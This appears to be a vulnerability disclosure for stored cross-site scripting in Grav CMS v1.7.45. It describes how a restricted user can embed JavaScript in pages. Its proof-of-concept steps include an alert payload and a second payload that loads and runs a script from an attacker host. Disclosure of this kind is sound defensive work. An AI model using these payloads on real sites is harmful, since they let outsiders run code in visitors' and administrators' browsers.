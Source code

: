 
# Description

## Summary
This vulnerability allows users with restricted page creation privileges to insert harmful JavaScript code into the pages they create, potentially compromising the system. To mitigate this risk, robust input validation and content filtering measures must be implemented to prevent the execution of unauthorized scripts and ensure system security.

## Details

### The following image shows the attacker privileges.
![327075359-a202a1ff-9284-468a-9d20-233e69909a0b](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/9cd780d3-e215-4536-bd5e-b68a0294623f)

### The following image shows the this user dont have the privilege to add the java script according to the admin
![327075618-941c466b-dd56-4063-a021-fb2c1eeb0692](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/79e2a9f6-9eea-4bff-ab57-e15292bb4f3e)

The following image shows the version number.

![327076118-9e233df3-97fd-44a9-af03-991b8e3c983f](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/efbbd2cb-ceaa-4f68-8773-364f671be9ec)

# PoC

step 1: Login into the user account.

![327076440-1ecf060f-35ee-4243-bfd3-59fa4e78e6c5](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/90866c9a-4d0a-4f6b-aaa0-beff84bd7afa)

Step 2: Create the page with ```<a ondblclick='alert(1)'><h1>test</h1></a>``` as shown in the picture.

![327076980-2fc4d7b5-e76f-43d2-bbfc-edfd0546fe22](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/0034aa13-2fd5-4087-8f06-0b7f8f57f5ba)

Step 3: Navigate to the created page and double click on the link and note the XSS popup.

![327077249-c6b12696-f6a6-482b-9a0b-0161bca69ff8](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/9cc2a8ac-09e5-4e8a-973b-17275eeba7e8)

Step 4: Loading and XSS payload from the third party. with the following payload.

```<a ondblclick='var s=document.createElement("script");s.src="http://192.168.86.129:9000/test.js";s.onerror=()=>console.error("Error loading script!");document.head.appendChild(s);'><h1>test</h1></a>```

![327077813-cc951bd0-99ff-4fed-88e8-ec93eb424944](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/5e31b1c7-b43b-47d8-ab62-cdc76cee2793)

Step 5: The following image shows after loaded and executed code.
![327078575-f80dd09f-5b29-45b7-adcc-f2bb4860198d](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/2c8c8621-e8fe-435d-ac67-1fee3a35d26a)

Step 6: The following image shows the code loaded and executed from the attackers server.
![327078751-e3f6ef0c-5b9b-45a9-b97f-2a59899b7e88](https://github.com/r4vanan/Stored-xss-Grav-v1.7.45-/assets/35825039/839c24d1-25b5-4a17-bd7c-d875f0318f11)

# Impact

## Affected by every users every user who visits site and even admin.
## Tested with following requirements

    * PHP 8.2.12 (cli) (built: Jan 8 2024 06:21:20) (NTS)
    * Grav v1.7.45
    * kalilinux




